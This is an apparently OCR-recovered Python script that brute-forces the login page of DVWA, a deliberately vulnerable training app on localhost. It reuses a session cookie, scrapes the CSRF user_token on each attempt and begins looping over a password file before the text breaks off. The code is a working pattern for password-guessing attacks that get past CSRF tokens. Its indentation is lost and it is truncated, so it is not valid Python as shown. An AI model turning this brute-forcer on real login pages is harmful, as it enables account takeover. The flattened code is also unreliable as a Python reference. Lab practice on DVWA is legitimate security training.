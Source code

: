 	# give our arguments more semantic friendly names
	script, filename, success_message = argv
	txt = open(filename)

	# set up our target, cookie and session
	url = 'http://127.0.0.1:42001/vulnerabilities/brute/index.php'
	cookie = {'security': 'high', 'PHPSESSID':'ud36qu65oddvmncfg54n515nhn'}
	s = requests.Session()
	target_page = s.get(url, cookies=cookie)

	''' 
	checkSuccess
	@param: html (String)

	Searches the response HTML for our specified success message
	'''
	def checkSuccess(html):
	# get our soup ready for searching
	soup = Soup(html, features="lxml")
	# check for our success message in the soup
	search = soup.findAll(text=success_message)
	
	if not search:
	success = False

	else:
	success = True

	# return the brute force result
	return success

	# Get the intial CSRF token from the target site
	page_source = target_page.text
	soup = Soup(page_source, features="lxml");
	csrf_token = soup.findAll(attrs={"name": "user_token"})[0].get('value')

	# Display before attack
	print('DVWA URL' + url)
	print('CSRF Token='+ csrf_token)

	# Loop through our provided password file
	with open(filename) as f:
	print('Running brute force attack...')
	for password in f:

